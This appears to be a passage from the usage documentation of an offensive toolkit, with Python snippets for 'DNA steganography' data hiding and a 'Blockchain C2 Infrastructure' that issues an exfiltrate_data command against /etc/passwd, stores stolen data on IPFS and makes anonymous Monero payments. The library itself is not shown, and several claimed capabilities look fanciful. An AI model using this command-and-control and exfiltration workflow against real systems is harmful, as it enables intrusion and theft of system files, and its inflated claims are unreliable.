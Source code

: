 ```python

# Encrypt and sign sensitive data
sensitive_data = b"TOP SECRET: Project Quantum Leap details"
encrypted_data, signature = qcrypto.encrypt_and_sign(sensitive_data)

print(f"Original data size: {len(sensitive_data)} bytes")
print(f"Encrypted data size: {len(encrypted_data)} bytes")
print(f"Signature size: {len(signature)} bytes")

# DNA Steganography for ultra-secure data hiding
dna_encoding = qcrypto.generate_dna_steganography(encrypted_data)
print(f"DNA sequence length: {dna_encoding['dna_sequence_length']}")
print(f"Detection probability: {dna_encoding['detection_probability']*100}%")
```

## 3. Blockchain C2 Infrastructure

```python
from blockchain_c2.blockchain_c2_infrastructure import BlockchainC2Infrastructure

# Initialize the blockchain C2 infrastructure
bc2 = BlockchainC2Infrastructure()

# Execute a command through the blockchain
command_data = {
    "command": "exfiltrate_data",
    "target_path": "/etc/passwd",
    "compression": "zlib",
    "encryption": "aes-256-gcm"
}
tx_hash = bc2.execute_command(command_data)
print(f"Command dispatched with transaction hash: {tx_hash}")

# Store exfiltrated data on IPFS
exfil_data = b"Exfiltrated data from target system"
ipfs_hash = bc2.store_encrypted_data(exfil_data, "quantum_key_1")
print(f"Data stored with IPFS hash: {ipfs_hash}")

# Process anonymous payment
payment_result = bc2.process_anonymous_payment(5.0, currency="XMR")
print(f"Payment processed: {payment_result['transaction_id']}")
print(f"Anonymity level: {payment_result['anonymity_level']}")

# Check infrastructure status
status = bc2.get_infrastructure_status()
print(f"Active nodes: {status['nodes']}")
print(f"Smart contracts:")
for contract_name, contract in status['smart_contracts'].items():
    print(f"- {contract_name}: {contract['address']} ({contract['status']})")
```

